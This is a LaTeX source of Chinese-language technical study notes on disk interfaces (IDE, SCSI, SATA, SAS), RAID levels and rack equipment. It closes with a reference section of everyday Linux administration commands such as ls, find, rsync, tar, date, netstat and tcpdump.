而且Intel在新型的芯片组中已经不默认支持ATA接口,主机版厂商需要另加芯片去对ATA作出支持(通常是为了兼容旧有硬盘和光盘驱动器)。

普遍情况下,一块主板只有两个IDE接口,每个接口可以挂两个IDE设备。
但同一个接口的两个设备是共用带宽的,对速度的影响非常大。所以稍有常识的人,都会把硬盘和光驱分开两条IDE线连接到主板上 
这样,IDE有个很大的问题,就是虽然一块主板可以连接4个设备,但事实上只要超过两个,速度就大大下降。
更大的问题是,同一条线上两个设备要严格按主/从设置才能正常运行。

并行ATA在支持设备热插拔方面能力有限,这一点对服务器方面的应用非常重要。因为服务器通常采用RAID的方式,
任何一块硬盘坏了都可以热拔插更换,而不影响数据的完整性,确保服务器任何情况下都正常开着。
具有热插拔支持功能的SCSI和光纤通道占据了企业级应用的几乎全部市场,
并行ATA空有价格优势而不能获得一席之地,主要原因就是它不支持热拔插。 


\subsection{SCSI}
小型计算机系统接口(SCSI,Small Computer System Interface)是一种用于计算机及其周边设备之间(硬盘、软驱、光驱、打印机、扫描仪等)系统级接口的独立处理器标准。
SCSI标准定义了命令、通信协定以及实体的电气特性(换成OSI的说法,就是占据了实体层、链接层、通信层、应用层),
最大部份的应用是在存储设备上(例如硬盘、磁带机),但SCSI可以连接的设备也包括扫描仪、光学设备(像CD、DVD)、打印机等等,

系统中的每个SCSI设备都必须有自己唯一的ID(标识号),在8-bit总线上,这个号码是0~7;在16-bit总线上,这个号码从0~15。
SCSI Adapter系统默认ID为7。
SCSI链的最后一个SCSI设备要用终结器,中间设备是不需要终结器的。
一旦中间设备使用了终结器,那么SCSI卡就无法找到以后的SCSI设备了。

SCSI-1是最初版本的SCSI,现已过时。
SCSI-1具有8位BUS,数据传输率为40 Mbps(5 MB/sec)。
SCSI-2是基于CCS的SCSI-1改进版本。
在Fast SCSI和Wide SCSI的支持下,SCSI-2在原SCSI-1的基础上传输速率得到了提高。
Fast SCSI的传输速率为10 MB/sec,当配合16位BUS时,其传输速率为20 MB/sec(Fast-Wide SCSI)。
当今,SCSI-3单元采用Ultra-Wide和Ultra SCSI类型的驱动器。
Ultra SCSI具有8位BUS,其传输速率为20 MB/sec。
Ultra-Wide SCSI具有16位BUS,其传输速率达到40 MB/sec。 
SCSI-3在SCSI-2基础上有了很多提高,如串行SCSI。通过6芯同轴电缆,其传输速率达到100 MB/sec。
SCSI-3解决了旧SCSI版本中存在的终结和延迟问题,
此外通过即插即用(plug-and-play)操作,自动分配SCSI ID和终结,使SCSI安装更为容易。
与SCSI-2支持8台设备相比,SCSI-3能支持32台设备。

同SCSI相比,IDE还具有性能价格比高、适用面广等特点。
个人电脑用户不但需要配置的外设不多,而且对速度要求也不高,因此选用IDE接口比SCSI更合适些。
SCSI相比于IDE的优势包括:
1)
IDE的工作方式需要CPU的全程参与,CPU读写数据的时候不能再进行其他操作,
而SCSI接口,则完全通过独立的高速的SCSI卡来控制数据的读写操作。
IDE接口为改善这个问题也做了很大改进,已经可以使用DMA模式而非PIO模式来读写,
对CPU的占用可大大减小。尽管如此,比较SCSI和IDE在CPU的占用率,还是可以发现SCSI仍具有相当的优势。
2)SCSI的扩充性比IDE大,一般每个IDE系统可有2个IDE通道,总共连4个IDE设备,而SCSI接口可连接7—15个设备,比IDE要多很多,而且连接的电缆也远长于IDE。
3)虽然SCSI设备价格高些,与IDE相比,SCSI的性能更稳定、耐用,可靠性也更好。
4)SCSI还允许在对一个设备传输数据的同时,另一个设备对其进行数据查找。
这就可以在多任务操作系统如Linux、WindowsNT中获得更高的性能。


\subsection{SATA}
Serial ATA(SATA, 串行ATA,Serial Advanced Technology Attachment),
是串行SCSI(SAS:Serial Attached SCSI)的孪生兄弟,两者的排线兼容,SATA硬盘可接上SAS接口。
它是一种电脑总线,主要功能是用作主板和大量存储设备(如硬盘及光盘驱动器)之间的数据传输之用。

在数据传输上这一方面,SATA的速度比以往更加快捷,并支持热插拔。
另一方面,SATA总线使用了嵌入式时钟频率信号,具备了比以往更强的纠错能力,能对传输指令(不仅是数据)进行检查,提高了数据传输的可靠性。
不过,SATA和以往最明显的分别,是用上了较细的排线,有利机箱内部的空气流通,某程度上增加了整个平台的稳定性。
SATA与原来的IDE相比有很多优越性,最明显的就是数据线从80 pin变成了7 pin,
而且IDE线的长度不能超过0.4米,而SATA线可以长达1米,安装更方便,利于机箱散热。
每个设备都直接与主板相连,独享150M字节/秒带宽,设备间的速度不会互相影响。
热拔插对于普通家庭用户来说可能作用不大,但对于服务器却是至关重要。
事实上,SATA在低端服务器应用上取得的成功,远比在普通家庭应用中的影响力大。
SATA提高了错误检查的能力,除了对CRC对数据检错之外,还会对命令和状态包进行检错,
因此和并行ATA相比提高了接入的整体精确度,使串行ATA在企业RAID和外部存储应用中具有更大的吸引力。 


现时,SATA分别有SATA 1.5Gbit/s、SATA 3Gbit/s和SATA 6Gbit/s三种规格。
SATA 1.5Gb/s为第一代SATA接口,坊间的非官方名称为SATA-1。
SATA 3Gb/s在2004年正式推出,坊间的非官方名称为SATA-2(SATA-II),符合ATA-7规范,传输速度可达3.0Gbit/s。
在SATA2.0扩展规范所带来的一系列新功能中,NCQ(Native Command Queuing,原生命令队列)功能最令人关注。
SATA 6Gb/s 在2009年5月26日SATA-IO 完成 SATA 3.0 最终规格发布,比上一代提升一倍速率至6Gb/s,
此外增加多项新技术,包涵新增 NCQ 指令以改良传输技术,并减低传输时所需耗电量。
SATA不依赖于系统总线的带宽,而是内置时钟,每一代SATA升级带宽的增加都是成倍的,这点和PATA的一级级算术级数增长是不同的。
所谓3Gb/s的算法,3000MHz的频率 x 每次发送一个数据 x 80\%(8b/10b的编码) / 8 bits per byte = 300Mbytes/s,
同理1.5Gb/s也是这样可算成150MB/s,
也就是一般我们在买硬盘时,有时候会看到SATA 150MB/s / 300MB/s,有时候又会看到SATA 1.5Gb/s / 3Gb/s的缘故。
以USB 3.0而言,它拥有5Gbps的带宽,折算为500Mbytes/s,所以USB 3.0的带宽比SATA 3.0的600MB/s还来的小。

SATA的诸多先进性总体上对个人电脑用户意义不是太大,
它最大的意义的反而是适应了入门级企业应用的需要。 
但在企业级应用方面,它又仍然在很多方面有待改进:
单线程的机械底盘(不适应服务器应用程序大量非线性的读取请求。所以SATA硬盘用来做视频下载服务器还不错,用在网上交易平台则力不从心),
形同虚设的热拔插功能(SATA硬盘虽然可以热拔插,但SATA组成的阵列在某块硬盘损坏的时候,不能象SCSI、FC和SAS那样,具有SAF-TE机制用指示灯显示,知道具体坏的是哪一块)。
SATA 1.0控制器的传输速度效率不高,虽然标称具有150MB/s的峰值速度,事实上最快的SATA硬盘速度也只有60MB/s。
虽然SATA硬盘相对于SCSI硬盘来说很便宜,但整个的SATA方案并不便宜。
主要原因是SATA 1.0控制器的每个接口只能连接一个硬盘,8个硬盘组成的阵列需要8个接口,把每个接口300多元的花费算进去,就不便宜了。 

SATA国际组织(Serial ATA International Organization)正在着手制定下一代SATA标准,
定名为SATA Express,带宽最高可达8Gbps和16Gbps。 要达到最高的16Gbps带宽(现在最快的SATA 3.0标准带宽为6Gbps),
SATA Express标准将会如其名称所描述的,把SATA软件架构和PCI-Express高速界面结合在一起。
SATA国际组织称SATA Express标准将会带来新一代更快的存储装置和对应的主板接口,并且还能兼容现有的SATA设备。 S
ATA国际组织主席Mladen Luksic称该标准将使固态与混合硬盘受益于新一代PCI-Express 3.0的高带宽从而打破性能瓶颈,
标准的具体细节将在年内制定完成。 
SATA国际组织同时表示除SATA Express外,还有针对集成在主板上的嵌入式单芯片SSD存储解决方案的SATA µSSD标准,面向移动设备如平板电脑等。
SATA Express还处于标准制定阶段,可能会是SATA 3.2规范的一部分。
它其实就是PCI-E物理层上的SATA链接层,同时保持了对SATA 3/6Gbps等旧版规范的兼容(当然性能也会受影响),
传输带宽最初预计的范围是8-16Gbps,基本已经确定会达到10Gbps,实际传输速度也有1GB/s,比SATA 6Gbps要快将近70%。





\subsection{SAS}

SAS(Serial Attached SCSI)是并行SCSI接口之后开发出的全新接口。
此接口的设计是为了改善存储系统的效能、可用性和扩充性,
提供与串行ATA (Serial ATA,缩写为SATA)硬盘的兼容性。

SAS的接口技术可以向下兼容SATA。
SAS系统的背板(Backpanel)既可以连接具有双端口、高性能的SAS驱动器,也可以连接高容量、低成本的SATA驱动器。
因为SAS驱动器的端口与SATA驱动器的端口形状看上去类似,所以SAS驱动器和SATA驱动器可以同时存在于一个存储系统之中。
但需要注意的是,SATA系统并不兼容SAS,所以SAS驱动器不能连接到SATA背板上。
由于SAS系统的兼容性,IT人员能够运用不同接口的硬盘来满足各类应用在容量上或效能上的需求,
因此在扩充存储系统时拥有更多的弹性,让存储设备发挥最大的投资效益。


第一代SAS为数组中的每个驱动器提供 3.0 Gbps(300 MB/s)的传输速率(现在主流Ultra 320 SCSI速度为320MB/s)。
第二代SAS为数组中的每个驱动器提供 6.0 Gbps(600 MB/s)的传输速率。

SAS由3种类型协议组成,根据连接的不同设备使用相应的协议进行数据传输:
串行SCSI协议 (SSP) — 用于传输SCSI命令。
SATA通道协议 (STP) — 用于传输SATA数据。
SCSI管理协议 (SMP) — 用于对SAS设备的维护和管理。

SAS的接口技术可以向下兼容SATA。
具体来说,二者的兼容性主要体现在物理层和协议层的兼容。
在物理层,SAS接口和SATA接口完全兼容,SATA硬盘可以直接使用在SAS的环境中,
从接口标准上而言,SATA是SAS的一个子标准,因此SAS控制器可以直接操控SATA硬盘,
但是SAS却不能直接使用在SATA的环境中,因为SATA控制器并不能对SAS硬盘进行控制;
在协议层,SAS由3种类型协议组成,根据连接的不同设备使用相应的协议进行数据传输。其中串行SCSI协议(SSP)用于传输SCSI命令;SCSI管理协议(SMP)用于对连接设备的维护和管理;
SATA通道协议(STP)用于SAS和SATA之间数据的传输。
因此在这3种协议的配合下,SAS可以和SATA以及部分SCSI设备无缝结合。

存储设备的反应速度,除了各环节间的配合与操作系统的影响之外,硬盘的反应速度其实具有关键性的地位。
企业级的工作站或存储设备,一般来说,都采用光纤信道(Fibre Channel,FC)与SCSI硬盘作为内部的存储媒体。
但是随着SCSI硬盘在扩增性上的限制,SAS(Serial Attached SCSI)硬盘崭露头角。
服务器厂商有越来越多采用SAS硬盘作为内部的存储媒体,小型负载的应用可以采用SAS硬盘,可兼具预算与效能的考虑。


SAS目前的不足主要有以下方面:
1)硬盘、控制芯片种类少:只有希捷、迈拓以及富士通等为数不多的硬盘厂商推出了SAS接口硬盘.
2)硬盘价格太贵:比起同容量的Ultra 320 SCSI硬盘,SAS硬盘要贵了一倍还多。
3)实际传输速度变化不大:SAS硬盘的接口速度并不代表数据传输速度,受到硬盘机械结构限制,现在SAS硬盘的机械结构和SCSI硬盘几乎一样。
目前数据传输的瓶颈集中在由硬盘内部机械机构和硬盘存储技术、磁盘转速所决定的硬盘内部数据传输速度,也就是80MBsec左右,SAS硬盘的性能提升不明显。
4)用户追求成熟、稳定的产品. 虽然SAS接口服务器和SCSI接口产品在速度、稳定性上差不多,但目前的技术和产品都还不够成熟。
不过随着英特尔等主板芯片组制造商、希捷等硬盘制造商以及众多的服务器制造商的大力推动,SAS的相关产品技术会逐步成熟,价格也会逐步滑落,早晚都会成为服务器硬盘的主流接口。

衡量一种技术的优劣通常有4个基本指标,即性能、可靠性、可扩展性和成本。
回顾串行磁盘技术的发展历史,从光纤通道,到SATA,再到SAS,几种技术各有所长。
光纤通道最早出现的串行化存储技术,可以满足高性能、高可靠和高扩展性的存储需要,但是价格居高不下;
SATA硬盘成本倒是降下来了,但主要是用于近线存储和非关键性应用,毕竟在性能等方面差强人意;
SAS应该算是个全才,可以支持SAS和SATA磁盘,很方便地满足不同性价比的存储需求,是具有高性能、高可靠和高扩展性的解决方案。











%!Mode:: "TeX:UTF-8"
\section{嵌入式多核处理器}
多核处理器目前发展非常迅速,主流厂商主要包括CAVIUM的OCTEON系列,RMI的XLR系列,飞思卡尔的PPC QorIQ系列.其中CAVIUM在业界处于领先定位,RMI在国内市场具有优势,而飞思卡尔由于研发速度较慢,其全新的多核处理器一直没有正式上市.目前国内华为,中兴等通信厂商,已经或者正在准备,把原有的通信产品移植到多核处理器上开发,以便降低成本和提高性能.



%!Mode:: "TeX:UTF-8"
\section{RAID阵列}

独立硬盘冗余阵列(RAID, Redundant Array of Independent Disks),其基本思想就是把多个相对便宜的硬盘组合起来,成为一个硬盘阵列组,使性能达到甚至超过一个价格昂贵、容量巨大的硬盘。根据选择的版本不同,RAID比单颗硬盘有以下一个或多个方面的好处:增强数据集成度,增强容错功能,增加处理量或容量。

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.15\paperwidth]{Pictures/RAID/JBOD.png}
		
\includegraphics[keepaspectratio,width=0.1\paperwidth]{Pictures/RAID/RAID0.png}
		
\includegraphics[keepaspectratio,width=0.1\paperwidth]{Pictures/RAID/RAID1.png}
	\end{center}
\end{figure}

\textbf{RAID 0}亦称为带区集。它将两个以上的磁盘串联起来,成为一个大容量的磁盘。在存放数据时,分段后分散存储在这些磁盘中,因为读写时都可以并行处理,所以在所有的级别中,RAID 0的速度是最快的。但是RAID 0既没有冗余功能,也不具备容错能力,如果一个磁盘(物理)损坏,所有数据都会丢失,危险程度与\textbf{JBOD}相当。


\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.2\paperwidth]{Pictures/RAID/RAID2.png}
		
\includegraphics[keepaspectratio,width=0.2\paperwidth]{Pictures/RAID/RAID3.png}
	\end{center}
\end{figure}

两组以上的N个磁盘相互作镜像,在一些多线程操作系统中能有很好的读取速度,理论上读取速度等于硬盘数量的倍数,另外写入速度有微小的降低。只要一个磁盘正常即可维持运作,可靠性最高。\textbf{RAID 1}就是镜像,其原理为在主硬盘上存放数据的同时也在镜像硬盘上写一样的数据。当主硬盘(物理)损坏时,镜像硬盘则代替主硬盘的工作。因为有镜像硬盘做数据备份,所以RAID 1的数据安全性在所有的RAID级别上来说是最好的。但无论用多少磁盘做RAID 1,仅算一个磁盘的容量,是所有RAID中磁盘利用率最低的一个级别。

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.2\paperwidth]{Pictures/RAID/RAID4.png}
		
\includegraphics[keepaspectratio,width=0.2\paperwidth]{Pictures/RAID/RAID5.png}
		
\includegraphics[keepaspectratio,width=0.2\paperwidth]{Pictures/RAID/RAID6.png}
	\end{center}
\end{figure}

\textbf{RAID 2}是RAID 0的改良版,以汉明码的方式将数据进行编码后分区为\textbf{独立的比特},并将数据分别写入硬盘中。因为在数据中加入了错误修正码(ECC,Error Correction Code),所以数据整体的容量会比原始数据大一些,RAID2最少要三台磁盘驱动器方能运作。RAID 2技术实施复杂,在商业环境中很少使用,早已被淘汰。

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.2\paperwidth]{Pictures/RAID/RAID10.png}
		
\includegraphics[keepaspectratio,width=0.2\paperwidth]{Pictures/RAID/RAID01.png}
	\end{center}
\end{figure}
\textbf{RAID 3}同RAID 2非常类似,都是将数据条块化分布于不同的硬盘上,区别在于RAID 3使用简单的奇偶校验,并用单块磁盘存放奇偶校验信息。如果一块磁盘失效,奇偶盘及其他数据盘可以重新产生数据;如果奇偶盘失效则不影响数据使用。


\textbf{RAID 4}与RAID 3不同的是它在分区时是以区块为单位分别存在硬盘中(块交织技术,Block interleaving),但每次的数据访问都必须从同比特检查的那个硬盘中取出对应的同比特数据进行核对,由于过于频繁的使用,所以对硬盘的损耗可能会提高。RAID 4使用一块磁盘作为奇偶校验盘,每次写操作都需要访问奇偶盘,这时奇偶校验盘会成为写操作的瓶颈。RAID 4在商业环境中也很少使用,面临淘汰。



\textbf{RAID 5是一种储存性能、数据安全和存储成本兼顾的存储解决方案}。它使用的是Disk Striping(硬盘分区)技术。RAID 5至少需要三颗硬盘,RAID 5不是对存储的数据进行备份,而是把数据和相对应的奇偶校验信息存储到组成RAID5的各个磁盘上,并且奇偶校验信息和相对应的数据分别存储于不同的磁盘上。当RAID5的一个磁盘数据发生损坏后,可以利用剩下的数据和相应的奇偶校验信息去恢复被损坏的数据。RAID 5可以理解为是RAID 0和RAID 1的折衷方案。RAID 5可以为系统提供数据安全保障,但保障程度要比镜像低而磁盘空间利用率要比镜像高。RAID 5具有和RAID 0相近似的数据读取速度,只是因为多了一个奇偶校验信息,写入数据的速度相对单独写入一块硬盘的速度略慢,若使用“回写高速缓存”可以让性能改善不少。同时由于多个数据对应一个奇偶校验信息,RAID 5的磁盘空间利用率要比RAID 1高,存储成本相对较便宜。


与RAID 5相比,RAID 6增加了第二个独立的奇偶校验信息块。两个独立的奇偶系统使用不同的算法,数据的可靠性非常高,即使两块磁盘同时失效也不会影响数据的使用。但RAID 6需要分配给奇偶校验信息更大的磁盘空间,相对于RAID 5有更大的“写损失”,因此“写性能”非常差。较差的性能和复杂的实作方式使得\textbf{RAID 6很少得到实际应用}。同一数组中最多容许两个磁盘损坏。更换新磁盘后,数据将会重新算出并写入新的磁盘中。依照设计理论,RAID 6必须具备四个以上的磁盘才能生效。


RAID 10是先镜射再分区数据,再将所有硬盘分为两组,视为是RAID 0的最低组合,然后将这两组各自视为RAID 1运作。

RAID 01则是跟RAID 10的程序相反,是先分区再将数据镜射到两组硬盘。它将所有的硬盘分为两组,变成RAID 1的最低组合,而将两组硬盘各自视为RAID 0运作。当RAID 10有一个硬盘受损,其余硬盘会继续运作。RAID 01只要有一个硬盘受损,同组RAID 0的所有硬盘都会停止运作,只剩下其他组的硬盘运作,可靠性较低。因此,\textbf{RAID 10远较RAID 01常用}。



\clearpage



%!Mode:: "TeX:UTF-8"
\section{Rack-Mountable Equipment}

A \textbf{rack} is the whole cabinet that is usually 42-U tall.

A \textbf{rack rail} is a verticall-stretching metal slice on each side of a
server rack with wholes for fastening.

A \textbf{chassis} might refer to a support board on top of each shelf.

1U, 1 RACK UNIT,=1.752 inches (44.50 mm)

%!Mode:: "TeX:UTF-8"
\chapter{Linux与运维}

%!Mode:: "TeX:UTF-8"
\section{常用操作命令}

\subsection{ls}
解释几个比较实用的选项。当不使用任何选项时,输出按照名字排序。S,t选项能更改排序的依据。r指示反序。

\textbf{l选项}产生类似如下输出:
\begin{verbatim}
srw-rw-rw-   1 root root             0 11月  3 15:45 log=
crw-------   1 root root       10, 237 11月  3 15:45 loop-control
-rwsr-xr-x   1 root root         45420  7月 27 01:07 /usr/bin/passwd*
\end{verbatim}
其中第1个字符表示文件类型。s表示socket,p表示FIFO(命名管道),b表示块设备,c表示字符设备,l表示符号链接,-表示普通文件,?表示未知类型。

在文件权限中,s表示设置用户(组)id位为1,且文件可执行。t表示粘住位为1,且文件可执行。相应的S和T表示文件不可执行。

第2个位段表示硬链接数。第3、4位分别表示用户和组,-n选项让二者用数字而非名字表示。

第5位单位为字节。对于设备文件(b和c),显示为主从设备号。

第6位表示时间戳。文件的三个时间属性为修改时间(mtime),访问时间(atime)和i节点状态改变时间(ctime)。-l选项的默认时间戳为mtime。使用u选项使得时间戳使用atime,使用-c选项表示时间戳为ctime。

最后一位为文件名。

常用选项:
\begin{description}
	\item[R]递归输出。相当于\verb|`--recursive'|
	\item[F]文件名后面加上一个符号,表示文件类型。如/表示目录,@表示符号链接,|表示FIFO,=表示socket。普通文件后面什么也没有。相当于\verb|`--classify'|
	\item[d]表示显示的为目录本身的信息,而非其子目录或包含文件的信息。相当于\verb|`--directory'|
	\item[t]表示按照时间戳排序。相当于\verb|`--sort=time'|
	\item[S]表示按照size排序。相当于\verb|`--sort=size'|
	\item[r]将排序结果反转。相当于\verb|`--reverse'|
	\item[c]使用ctime表示时间。如果同-t选项一同使用,则按照ctime排序。相当于\verb$`--time=ctime'$或\verb$`--time=status'$.
	\item[u]使用atime表示时间。如果同-t选项一同使用,则按照atime排序。相当于\verb$`--time=atime'$或\verb$`--time=access'$或\verb$`--time=use'$
	\item[i]显示inode号。
\end{description}

如何打印当前路径下的文件夹:
\begin{verbatim}
ls -d */
find */ -type d -prune
ls -l|grep ^d|awk '{print $9}'
\end{verbatim}

如何打印当前路径下的纯文件:
\begin{verbatim}
find . -maxdepth 1 -type f
ls -l|grep ^-|awk '{print $9}'
\end{verbatim}

\subsection{grep}

Linux系统中grep命令是一种强大的文本搜索工具,它能使用正则表达式搜索文本,并把匹配的行打印出来。
grep全称是Global Regular Expression Print,表示全局正则表达式版本,它的使用权限是所有用户。

grep的选项:
\begin{description}
	\item[-c]只输出匹配行的计数
	\item[-i]不区分大小写(用于单字符)
	\item[-n]显示匹配的行号
	\item[-v]不显示不包含匹配文本的所以有行
	\item[-s]不显示错误信息
	\item[-E] 使用扩展正则表达式
\end{description}

举例:
\begin{verbatim}
grep 'ipp|ssn' netstat.txt -E
\end{verbatim}


\subsection{find}
\begin{verbatim}
find [-H] [-L] [-P] [-D debugopts] [-Olevel] [path...] [expression]
\end{verbatim}
H,L,P选项控制是否进入符号链接。D,O选项也不太常用。
expression包含选项、测试、行动三部分,因此find命令的使用方式通常为如下形式:

\verb+find 起始目录 寻找条件 操作+

寻找条件可以用and,or,not连接起来,分别写作:

\verb+ -a -o 和 !+

如

\verb+ find ! -name 'tmp'+

\verb+-prune选项相当与-maxdetph 0+,表示只对path参数包含的路径进行操作,不进行递归。

需要说明的是:当使用很多的逻辑选项时,可以用括号把这些选项括起来。为了避免Shell本身对括号引起误解,在话号前需要加转义字符来去除括号的意义。例:

\verb+find \(–name ’tmp’ -a type c -user ’inin’ \)+


只显示当前目录下的文件夹:

\verb+ls -l | grep ^d+

\verb+find * -type d -prune+

\verb+find . -maxdepth 1 -mindepth 1 -type d+

只显示当前目录下的非文件夹:

\verb+ls -l | grep -v ^d+




\subsection{xargs}
执行一条命令,其参数从标准输入获取。

其用途之一是用于将参数分成多行输入,类似于行末添加了反斜杠。例如输入xargs file,分多行输入file命令的参数,用CtrlD终止输入。

用途之二是构造管道,第一个命令的输入并不连接到第二个命令的输入,而是其命令行参数。如

\begin{verbatim}
ls | xargs file
find /tmp -name core -type f -print0 | xargs -0 /bin/rm -f
\end{verbatim}

find,xargs和wc命令配合使用可以统计目录下源代码行数:
\begin{verbatim}
find . -name "*.c" -o -name "*.h"|xargs wc -l
\end{verbatim}
这条命令统计了.h和.c文件中包含的行数。


\subsection{rsync}
Rsync(remote synchronize)是一个远程数据同步工具,可通过LAN/WAN快速同步多台主机间的文件。Rsync使用所谓的“Rsync算法”来使本地和远程两个主机之间的文件达到同步,这个算法只传送两个文件的不同部分,而不是每次都整份传送,因此速度相当快。

Rsync本来是用于替代rcp的一个工具,目前由rsync.samba.org维护,所以rsync.conf文件的格式类似于samba的主配置文件。Rsync可以通过rsh或ssh使用,也能以daemon模式去运行,在以daemon方式运行时Rsync server会打开一个873端口,等待客户端去连接。连接时,Rsync server会检查口令是否相符,若通过口令查核,则可以开始进行文件传输。第一次连通完成时,会把整份文件传输一次,以后则就只需进行增量备份。

Rsync用于单向同步,有一款双向\textbf{同步工具Unison}。

Rsync的基本特点如下:
\begin{enumerate}
\item 可以镜像保存整个目录树和文件系统
\item 可以很容易做到保持原来文件的权限、时间、软硬链接等
\item 无须特殊权限即可安装
\item 优化的流程,文件传输效率高
\item 可以使用rsh、ssh等方式来传输文件,当然也可以通过直接的socket连接
\item 支持匿名传输
\end{enumerate}

举例:
\begin{verbatim}
rsync -av `pwd` /media/D/Yunio/Projects
rsync -av `pwd` limz@192.168.10.10:~/Projects
\end{verbatim}

\subsection{sz and rz}

The \textbf{sz} and \textbf{rz} tools also come in handy. 
They are provided by \textbf{lrzsz} yum package.

\subsection{port scanning}
To check whether port 53 is open on a host,
\begin{verbatim}
nmap -Pn -p 53 202.100.4.15
\end{verbatim}


\subsection{compression and decompression:rar, zip, tar}

\href{https://en.wikipedia.org/wiki/RAR_(file_format)}{RAR} is a proprietary
archive file format that supports data compression, error recovery and file spanning.
Decompression source code is available, but it's not free software due to the
restriction that it must not be used to reverse engineer the RAR compression algorithm

\begin{verbatim}
rar a jpg.rar *.jpg 
rar a lua.rar -r lua
rar x file.rar 
\end{verbatim}

Linux zip command usage:
\begin{verbatim}
 zip options archive inpath inpath ...
\end{verbatim}

Examples:

\begin{verbatim}
zip jpg.zip *.jpg 
zip -r foo.zip foo
zip -r foo foo
unzip file.zip 
\end{verbatim}

We can also zip and unzip with Python's standard
\href{https://docs.python.org/2/library/zipfile.html}{zipfile} module:


\begin{verbatim}
$ python -m zipfile
Usage:
    zipfile.py -l zipfile.zip        # Show listing of a zipfile
    zipfile.py -t zipfile.zip        # Test if a zipfile is valid
    zipfile.py -e zipfile.zip target # Extract zipfile into target dir
    zipfile.py -c zipfile.zip src ... # Create zipfile from sources
\end{verbatim}


The \textbf{tar} tool has file sub-commands:
\begin{itemize}
  \item -c archive creation 
  \item -x archive decompression
  \item -t archive content listing
  \item -r archive append
  \item -u archive update
\end{itemize}

Optional parameters:
\begin{itemize}
    \item -z:gzip
    \item -j:bz2
    \item -Z:compress
    \item -v:show processing verbosely
\end{itemize}

Arhive name follows \textbf{-f} argument.

\begin{verbatim}
tar –cvf jpg.tar *.jpg 
tar –czf jpg.tar.gz *.jpg   
tar –cjf jpg.tar.bz2 *.jpg 
tar –cZf jpg.tar.Z *.jpg 
tar -xzvf file.tar.gz 
tar -xjvf file.tar.bz2 
\end{verbatim}



\subsection{date命令}
\begin{verbatim}
date  //显示本地时间
date -R //按照RFC-2822格式显示本地时间
date -u  //显示UTC时间
data -s $timestr //设置当前时间
date -s 20151021 //设置日期,日内时间置为零时
date -s 12:23:23 //设置具体时间,不会对日期做更改
date -s “12:12:23 2006-10-10″ //这样可以设置全部时间
date +"Day : %d Month : %m Year : %Y" // +号用于定制时间显示格式
date +%s //显示UNIX时间戳
date -d tomorrow //-d 或 --date选项,显示指定的时间而非当前时间
date -d '@1445396904' //显示UNIX时间戳指定的时间
date -d '2015-11-26'
date -d '2015-11-26 19:00:00'
date -d '3 hours'
date -d '1 month ago'
date -d 'last year' 
date -d 'next wed' #下周三
\end{verbatim}


显示格式定义:
\begin{verbatim}
%Y: 年(如2015)
%m: 月(01..12)
%d: 日(01..31)
%H: 小时(01..24)
%M: 分钟(00..59)
%S: 秒数(00..59)
%s: 秒数(UNIX时间)
%w: 星期几(0..6, 0表示星期日)
%b: 月份(Oct, 10月)
%B: 月份全称(October, 十月)

\end{verbatim}

\subsection{netstat}

netstat用法:
\begin{verbatim}
netstat [类型] [选项]
\end{verbatim}
默认类型为打印所有Open socket信息,类型-r表示路由表信息,-i表示网络接口信息,-g表示多播组信息,-s表示各协议统计信息。-c选项控制打印间隔。

对于Open socket信息,重要选项为:
\begin{description}
    \item  [a] 显示所有的socket,而不仅仅是监听套接字(默认为l)
    \item  [t] TCP only
    \item  [u] UDP only
    \item  [n] 不将数字解析成名字,使用该选项能加速程序输出
    \item  [p] 显示相关进程的PID和名字
    \item  [4] tcp4 and udp4 only
    \item  [6] tcp6 and udp6 only
\end{description}

在Mac OS X下,netstat不能提供进程名称信息,可采用lsof -i 命令来获取该信息。


\subsection{Generating Terminal Output}
\textbf{wall} and \textbf{write} can do that.

\subsection{tcpdump and Wireshark}

\begin{verbatim}
tcpdump -i eth0 -w file.pcap host 192.168.130.10 'tcp' 
tcpdump -r file.pcap >> file.txt
\end{verbatim}
注意,待写入的文件必须以pcap为后缀,否则tcpdump不能运行,报权限错误。pcap文件也可以用wireshark打开。

一些常用选项为:
\begin{itemize}
    \item 
        c选项指定抓包数量
    \item 
        s选项指定抓包长度(从二层开始)
\end{itemize}

注意如果s选项指定的长度超过帧长,则只抓帧长。所谓帧长,如果是在Linux下运行pcap程序,是不包括L2 FCS的(以太网尾部CRC),这和Smartbit等测试仪表不一样。sar也将FCS加入到计数器中,虽然Linux下的pcap抓不到FCS。

抓某个地址的ping包:
\begin{verbatim}
 tcpdump -i em2 host 172.28.11.131 and icmp
\end{verbatim}

抓HTTP包:
\begin{verbatim}
tcpdump -i eth0 tcp and port 80
\end{verbatim}

抓SYN,FIN,RST包(Unix网络编程29.2节BPF的例子),tcp头第13个字节为标志位字节。
\begin{verbatim}
tcpdump -i any 'tcp and port 80 and tcp[13:1] & 0x7 != 0'
\end{verbatim}


只接收SYN标志位置位且目标端口是22或23的数据包(tcp首部开始的第13个字节)
\begin{verbatim}
tcpdump 'tcp[13] == 0x02 and (dst port 22 or dst port 23) '
tcpdump tcp[13] == 0x02 and \(dst port 22 or dst port 23\)
\end{verbatim}

只接收icmp的ping请求和ping响应的数据包
\begin{verbatim}
tcpdump 'icmp[icmptype] == icmp-echoreply or icmp[icmptype] == icmp-echo'
tcpdump 'tcp[tcpflags] & (tcp-syn|tcp-fin) != 0 and not src and dst net localnet'
\end{verbatim}

